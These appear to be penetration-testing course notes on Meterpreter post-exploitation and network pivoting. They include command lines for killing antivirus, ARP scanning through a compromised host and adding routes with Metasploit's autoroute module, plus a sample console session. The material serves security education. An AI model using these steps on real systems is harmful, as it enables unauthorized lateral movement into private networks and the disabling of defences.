 ```
\\See what countermeasures the target has in places:
	getcountermeasure
\\ kill any possible anti-virus running on the target
	post/windows/manage/killav
\\Perform an ARP scan for a given range through a compromised host:
	post/windows/gather/arp_scanner RHOST=<subnet ID/CIDR mask?
\\ Find out what other subnets the host might be attached to:
	get_local_subnets
\\ Attempt to add a route to those subnets into the target's routing table
	post/multi/manage/autoroute
	
```


### 6.18 PIVOTING

#### What is PIVOTING?
- What is pivoting uses a compromised machine to get into an otherwise inaccessible private network or service
- You can
	- Remote control the compromised machine to start new attacks against the internal
	- Use the compromised machine as a router between the attacker and the internal network

#### PIVOTING THROUGH REMOTE CONTROL
-  The attacker compromises a host that has access to both the public and private network. For example
	- A web server in the target DMZ
	- An internal host (compromised via social engineering) with a reverse connection to the attacker
- Attack tools are uploaded to the compromised host
- The compromised host acts as a staging point to further attack the internal network 
- (via remote control) the compromised host is doing the attacking
- Common remote control methods include
	- RDP/VNC
	- Meterpreter
	- RAT 
	- Telnet/SSH
	- psexec
#### PIVOTING THROUGH ROUTING
- AKA Network pivoting
- The attacker has compromised a host but cannot upload or run additional tools on that host for whatever reason:
	- Wrong OS
	- Limited resources
	- Antivirus
	- Other restrictions
- The attacker can use the Meterpreter session itself on the compromised host as a router
- Since the routing is happening through the VPN of the Meterpreter session, Its doesn't matter if the internal network uses private IP addresses
	- The attacker adds a router to the internal network, with the session as the default gateway

#### METASPLOIT AUTOROUTE MODULE
- Creates a route using the Meterpreter session as the default gateway.
```
meterpreter > background
msf6 > use post/multi/manage/autoroute 
msf6 post (multi/manage/autorouter) > show options
msf6 post (multi/manage/autorouter) > set SESSION 1
msf6 post (multi/manage/autorouter) > Set SUBNET 10.10.10.0
msf6 post (multi/manage/autorouter) > Set NETMASK /24
msf6 post (multi/manage/autorouter) > run
\\ Note: You will be limited to using metaspoit modules only to attack internal targets

```